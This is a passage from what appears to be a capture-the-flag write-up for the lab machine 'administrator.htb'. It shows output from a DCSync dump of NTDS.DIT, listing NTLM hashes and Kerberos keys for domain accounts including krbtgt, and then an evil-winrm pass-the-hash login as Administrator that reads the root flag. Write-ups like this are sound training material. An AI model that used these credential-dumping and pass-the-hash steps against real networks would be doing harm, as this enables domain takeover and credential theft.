[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:************04eeaad3b435b51404ee:************20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:337e0590c813cd9913efd6de786badb2:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:cef297120f776ca0d05ab5a7182990d3:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7

```
Now, we have the **hash for the Administrator**.  

We use `evil-winrm` to log in and grab the **root flag**.


```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i 10.10.11.42 -u administrator -H '************20bd016e098d2d2fd2e'
                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
cd*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
************70498d749678503d7b90
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```
